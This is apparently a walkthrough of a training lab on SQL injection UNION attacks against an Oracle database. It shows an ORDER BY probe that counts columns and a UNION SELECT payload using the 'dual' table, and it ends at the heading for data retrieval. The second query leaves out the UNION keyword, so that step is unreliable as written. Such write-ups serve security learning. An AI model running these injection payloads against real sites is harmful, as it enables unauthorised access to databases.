 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234487924-92fe230b-d01c-4d88-8f40-ece849a2d2e2.png)

## Solution :


> NOTE -  On Oracle databases, every `SELECT` statement must **specify a table to select FROM**. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
>
>There is a built-in table on Oracle called **dual** which you can use for this purpose. 
>
> For example: `UNION SELECT 'abc' FROM dual`

#### Determine number of columns -

Order by 3 throws a error which means there are 2 columns.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://user-images.githubusercontent.com/67383098/234492107-acad89e0-9e01-4c0e-aab3-17c4f3ab8c0b.png)

#### Determine column with text data

Both columns have text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' SELECT 'abc','def' FROM DUAL--
```

![image](https://user-images.githubusercontent.com/67383098/234493878-4160908e-fddd-4269-a091-395850b55e44.png)

#### Retreive data from ORACLE db -

